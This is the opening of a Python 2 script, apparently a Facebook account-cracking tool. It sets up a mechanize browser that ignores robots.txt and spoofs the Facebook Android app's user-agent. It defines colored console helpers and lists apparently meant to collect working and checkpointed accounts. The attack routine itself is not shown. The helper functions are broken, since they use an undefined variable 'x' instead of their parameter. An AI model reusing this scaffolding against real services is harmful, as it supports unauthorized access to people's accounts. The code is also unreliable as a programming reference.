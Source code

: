 import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def keluar():
	print 'Thanks.'
	os.sys.exit()

def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
    x += '\033[0m'
    x = x.replace('!0','\033[0m')
    sys.stdout.write(x+'\n')


def jalan(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(00000.1)
def tik():
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\x1b[1;93mPlease Wait \x1b[1;93m"+o),;sys.stdout.flush();time.sleep(1)


back = 0
oks = []
id = []
cpb = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"
